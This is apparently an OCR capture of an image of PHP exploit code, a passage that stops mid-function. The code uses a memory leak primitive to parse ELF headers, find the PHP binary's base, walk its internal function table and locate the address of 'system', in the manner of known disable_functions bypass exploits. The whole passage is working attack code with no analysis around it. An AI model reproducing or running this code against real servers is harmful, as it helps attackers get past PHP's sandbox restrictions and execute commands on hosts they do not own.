```
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
    
            if($p_type == 1 && $p_flags == 6) { 
    
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { 
                $text_size = $p_memsz;
            }
        }
    
        if(!$data_addr || !$text_size || !$data_size)
            return false;
    
        return [$data_addr, $text_size, $data_size];
    }
    
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;
    
            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
    
            return $data_addr + $i * 8;
        }
    }
    
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }
    
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
    
            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
```